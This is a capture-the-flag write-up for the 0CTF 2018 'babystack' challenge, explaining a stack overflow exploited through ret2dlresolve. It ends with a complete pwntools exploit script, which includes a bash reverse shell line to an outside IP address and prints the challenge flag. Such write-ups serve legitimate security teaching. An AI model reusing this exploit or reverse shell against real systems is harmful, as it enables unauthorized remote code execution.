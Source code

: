 # 0CTF 2018 Quals: Baby Stack

> Challenge link: [babystack](http://dl.0ops.net/2018/babystack.tar.gz)
>
> Category: Pwn
>
> Writeup: https://ss8651twtw.github.io/blog/writeup/0CTF-2018-Quals:Baby-Stack/
>

Info leak is no longer required to exploit a stack overflow in 2018.

Enjoy the babystack

202.120.7.202:6666

## Protection

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## Analysis

- ```pow.py```

It is a wrapper of babystack.
Add proof-of-work and limiting the length of input is ```0x100```; also pipe stdout and stderr to ```/dev/null```.

- ```babystack```

Just alarm and read buffer.

```c
ssize_t sub_804843B()
{
  char buf; // [esp+0h] [ebp-28h]

  return read(0, &buf, 0x40u);
}

int __cdecl main()
{
  alarm(0xAu);
  sub_804843B();
  return 0;
}
```

## Vulnerability

No canary found and we can read a lot of characters to buf.

- **Buffer overflow** in ```read(0, &buf, 0x40u)```

## Idea

- no output function => cannot do information leak
- no libc provided => guessing function offset maybe hard
- NX enabled => read shell code and jump to execute cannot work

According to the description, "info leak is no longer required", it means that we can use ret2dlresolve skill to pwn it!

Try to solve by the following steps:

1. use rop to read fake data structures and ret2main
2. use ret2dlresolve to call ```system("/bin/sh")```

Fake data structures:

- ```Elf32_Rel```

```
/* Relocation table entry without addend (in section of type SHT_REL).  */
typedef struct
{
  Elf32_Addr        r_offset;                /* Address */
  Elf32_Word        r_info;                        /* Relocation type and symbol index */
} Elf32_Rel;
```

https://code.woboq.org/userspace/glibc/elf/elf.h.html#633

- ```Elf32_Sym```

```
/* Symbol table entry.  */
typedef struct
{
  Elf32_Word        st_name;                /* Symbol name (string tbl index) */
  Elf32_Addr        st_value;                /* Symbol value */
  Elf32_Word        st_size;                /* Symbol size */
  unsigned char        st_info;                /* Symbol type and binding */
  unsigned char        st_other;                /* Symbol visibility */
  Elf32_Section        st_shndx;                /* Section index */
} Elf32_Sym;
```

https://code.woboq.org/userspace/glibc/elf/elf.h.html#518

Working flow about ```_dl_runtime_resolve```

```
     _dl_runtime_resolve(link_map, reloc_arg)
                                       +
          +-----------+                |
          | Elf32_Rel | <--------------+
          +-----------+
     +--+ | r_offset  |        +-----------+
     |    |  r_info   | +----> | Elf32_Sym |
     |    +-----------+        +-----------+      +----------+
     |      .rel.plt           |  st_name  | +--> | system\0 |
     |                         |           |      +----------+
     v                         +-----------+        .dynstr
+----+-----+                      .dynsym
| <system> |
+----------+
  .got.plt
```

- fake ```Elf32_Rel```
    - ```r_offset``` writable (after resolving symbol write the actual address of function)
    - ```r_info``` high 24 bits
        - ```(r_info >> 8) * 16``` point to fake ```Elf32_Sym``` (16 is size of ```Elf32_Sym```)
    - ```r_info``` low 8 bits
        - must be ```0x07``` (R_386_JMP_SLOT)

- fake ```Elf32_Sym```
    - ```.dynstr + st_name``` point to ```system``` string

Read the fake ```Elf32_Rel```、```Elf32_Sym``` structures and ret2main to call ```_dl_runtime_resolve```.

- use ```plt0```

```
Disassembly of section .plt:

080482f0 <read@plt-0x10>:                                             // plt0
 80482f0:       ff 35 04 a0 04 08       push   DWORD PTR ds:0x804a004 // push link_map
 80482f6:       ff 25 08 a0 04 08       jmp    DWORD PTR ds:0x804a008 // jmp _dl_runtime_resolve
```

We can calculate the ```reloc_arg``` to make ```.rel.plt + reloc_arg``` point to our fake structures and jump to ```plt0```, let it resolve symbol to ```system```.

After resolving the symbol, ```_dl_runtime_resolve``` will call the function.

## Exploitation

```python
#!/usr/bin/env python

from pwn import *
from hashlib import sha256
import time

# r = process('./babystack')
r = remote('202.120.7.202', 6666)

def verify():
    data = r.recvline()[:-1]
    for i in xrange(2 ** 32):
        if sha256(data + p32(i)).digest().startswith('\0\0\0'):
            break
    r.send(p32(i))
    log.info('POW is over')
    sleep(0.5)

def send(data, length):
    time.sleep(0.1)
    r.send(data.ljust(length))

plt0 = 0x80482f0
relplt = 0x80482b0
dynsym = 0x80481cc
dynstr = 0x804822c

main = 0x8048457
read_plt = 0x8048300

buf = 0x804a500

rop = flat(
        # _dl_runtime_resolve call and reloc_arg
        plt0, buf - relplt, # will resolve system
        0xdeadbeef, # return address
        buf + 36 # parameter "/bin/sh"
        )

data = flat(
        # Elf32_Rel
        buf, 0x7 | ((buf + 12 - dynsym) / 16) << 8, 0xdeadbeef, # 0xdeadbeef is padding
        # Elf32_Sym
        buf + 28 - dynstr, 0, 0, 0x12,
        'system\x00\x00',
        '/bin/sh\x00'
        )

verify()

# read data to buf
send('a' * 44 + flat(read_plt, main, 0, buf, 44), 0x40)
send(data, 44)

# use ret2dlresolve to call system("/bin/sh")
send('a' * 44 + rop, 0x40)

# make a reverse shell
send('bash -c "bash -i &>/dev/tcp/35.201.141.84/80 0>&1"', 0x100)

r.interactive()
```

```flag{return_to_dlresolve_for_warming_up}```

## Note

https://www.slideshare.net/AngelBoy1/re2dlresolve

https://www.youtube.com/watch?v=wsIvqd9YqTI
